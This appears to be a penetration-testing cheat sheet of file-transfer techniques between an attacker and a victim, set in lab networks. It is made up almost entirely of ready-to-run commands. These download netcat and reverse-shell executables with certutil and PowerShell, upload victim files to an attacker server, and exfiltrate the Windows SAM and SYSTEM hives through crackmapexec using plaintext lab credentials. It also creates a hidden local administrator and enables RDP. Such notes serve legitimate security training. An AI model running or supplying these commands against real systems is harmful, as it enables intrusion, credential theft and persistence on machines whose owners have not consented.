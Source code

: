 # Transfer Files

<details>

<summary>Linux</summary>

```bash
python -m SimpleHTTPServer 53
```

```bash
python3 -m http.server 8023
```

```bash
wget -O <filename> <website_name>
```

```bash
curl -o <filename> <website_name>
```

```bash
axel -a -n 20 -o <filename> <website_name>
```

</details>

<details>

<summary>Windows</summary>

```shell
curl.exe http://10.11.67.208:8000/output.dll --output output.dll
```

```bash
powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe
```

```sh
powershell -c cd C:\windows\temp; wget http://10.10.14.68/nc64.exe -outfile nc64.exe
```

```powershell
(new-object net.webclient).downloadfile('http://10.10.14.2/nc.exe', 'c:\temp\nc.exe')
```

```bash
certutil.exe -urlcache -f http://10.10.14.68/nc.exe C:\Windows\Temp\nc.exe
```

</details>

<details>

<summary>Upload files to HTTP Server</summary>

[https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py](https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py)

Attacker's upload server:

```bash
python3 SimpleHTTPServerWithUpload.py 80
```

#### GUI to upload file:

* Go to `<Attacker's IP>`

![](<../.gitbook/assets/image (121).png>)

#### Windows victim uploading file using PS:

```powershell
(New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'c:\temp\20230425015352_BloodHound.zip')
```

#### Windows victim uploading file using CMD:

* double backslashes are impt!!
* Windows 10 and Server 2019 has curl.exe built-in at `c:\windows\system32\curl.exe`

```bash
powershell -c curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
```

#### Linux victim uploading file:

```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

```
requests.post(<path-on-server-side>, files={'file': open(output_file, 'rb')})
```

</details>

<details>

<summary>SMB</summary>

On attacker:

```bash
sudo python3 /usr/local/bin/smbserver.py share .
```

* may need to use `-smb2support` switch

On victim:

```shell
copy \\10.10.14.68\share\reverse.exe .
```

OR...

```bash
net use \\10.10.14.68\share /u:d d
cd \\10.10.14.15\share
.\winpeas.bat
```

</details>

<details>

<summary>FTP</summary>

```bash
python2.7 -m pyftpdlib -p 21 --write
```

### Non-Interactive File Transfer

* Have to craft the txt file on the victim as Linux and Win uses diff encoding for txt files.

#### CMD:

```bash
echo open 172.16.1.30 > ftp.txt
echo USER anonymous >> ftp.txt
echo PASS anonymous >> ftp.txt
echo binary >> ftp.txt
echo PUT nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp.exe -v -n -s:ftp.txt
```

#### PS:

* Doesn't like the `>` or `<` characters

```bash
echo "open 172.16.1.30" | Out-File .\ftp.txt -encoding ascii
echo "USER anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "PASS anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "binary" | Out-File .\ftp.txt -encoding ascii -append
echo "PUT nc.exe" | Out-File .\ftp.txt -encoding ascii -append
echo "bye" | Out-File .\ftp.txt -encoding ascii -append

ftp.exe -v -n -s:ftp.txt
```

</details>

<details>

<summary>SCP</summary>

From attacker to victim, run command on attacker:

```bash
scp -P 2222 printname.sh student@192.168.161.52:/tmp
```

From victim to attacker, run command on attacker:

```bash
scp -P 2222 -o "UserKnownHostsFile=/dev/null" student@192.168.145.52:/home/student/navigating-code.exe /tmp/navigating-code.exe
```

</details>

<details>

<summary>Netcat</summary>

On Victim:

```bash
nc -nlvp 4444 > wget.exe
```

On Attacker:

```bash
nc -nv 10.11.0.22 4444 < /home/kali/Downloads/wget.exe
```

</details>

<details>

<summary>Python3 uploadserver library</summary>

On Attacker:

```python
python3 -m uploadserver 80
```

Can install using `python3 -m pip install --user uploadserver`

On Victim:

```bash
curl -X POST http://192.168.45.201:80/upload -F 'files=@/usr/bin/sg'
```

</details>

<details>

<summary>Socat</summary>

Transferring files from attacker to victim

On Attacker:

```bash
socat TCP4-LISTEN:80,fork file:rev.php       
```

On Victim:

```bash
socat TCP4:192.168.45.213:80 file:rev.php,create
```

</details>

<details>

<summary>Transfer files to unreachable hosts</summary>

* Able to reach MS01 but not MS02 despite chisel in place
* MS02 able to reach MS01 via internal IP

#### Use existing HTTP server on MS01 to transfer files

```bash
ftp <ms01's external IP>
# ftp> cd wwwroot
# ftp> bin
# ftp> put reverse.exe
# local: reverse.exe remote: reverse.exe
# 229 Entering Extended Passive Mode (|||50472|)
# 125 Data connection already open; Transfer starting.
# 100% |**********************************************************************|  7168       23.57 MiB/s    00:00 ETA
# 226 Transfer complete.
# 7168 bytes sent in 00:00 (38.06 KiB/s)

# Use Curl to download the reverse shell from MS01 web server.
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -x "curl http://<ms01 Internal IP>:8000/reverse.exe --output c:\temp\reverse.exe"

```

### OR&#x20;

#### Setup Rejetto HFS server (HTTP file server)

```bash
wget https://github.com/rejetto/hfs/releases/download/v0.45.0/hfs-windows.zip
```

#### Create new local admin named bill & Enable RDP on MS01

```bash
c:\temp> net user bill P@ssw0rd /add
c:\temp> net localgroup administrators bill /add
c:\temp> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Run the HFS server

* Use GUI to unzip --> Double-click hfs executable to serve HTTP server
* Go to [http://localhost/\~/admin/#/](http://localhost/\~/admin/#/) --> hamburger icon --> shared files --> add files in virtual file system --> save

#### Download files from MS01 HFS server to MS02

```bash
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -x "powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe"
```

#### Upload files from MS02 to MS01

* Inside HFS admin console ([http://localhost/\~/admin/#/fs](http://localhost/\~/admin/#/fs))
  * Select "Shared Files" --> Select "Home" --> "Source on disk" put as a local directory
  * Select "Who can upload" as anyone

```bash
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -X "curl.exe -F 'file=@c:\windows.old\windows\system32\SAM' http://10.10.105.147"
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -X "curl.exe -F 'file=@c:\windows.old\windows\system32\SYSTEM' http://10.10.105.147"
```

* Note it's capital X, meaning that it's a Powershell command

</details>
